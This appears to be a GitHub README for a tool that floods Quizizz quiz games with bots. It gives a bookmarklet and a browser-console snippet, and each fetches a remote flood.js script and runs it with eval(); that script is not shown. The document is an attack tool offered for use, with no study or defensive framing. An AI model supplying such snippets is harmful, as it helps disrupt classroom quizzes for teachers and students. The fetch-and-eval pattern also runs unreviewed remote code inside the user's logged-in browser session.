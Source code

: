 # Flood Quizizz with bots
Using Bookmarklet
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into bookmark bar and click it
```js
javascript:(function()%7Bfetch(%22https%3A%2F%2Fraw.githubusercontent.com%2Fseanv999%2Fquizizz-flooder%2Fmain%2Fflood.js%22)%0A.then((res)%20%3D%3E%20res.text()%0A.then((t)%20%3D%3E%20eval(t)))%7D)()%3B
```
Using console
- [](https://via.placeholder.com/15/1589F0/000000?text=+) Paste this into console
```js
fetch("https://raw.githubusercontent.com/seanv999/quizizz-flooder/main/flood.js")
.then((res) => res.text()
.then((t) => eval(t)))
```
![image](https://user-images.githubusercontent.com/79374771/162595454-64e57d15-24de-41a5-a690-1db4ce278f60.png)

# Confused? Watch this video!
coming soon
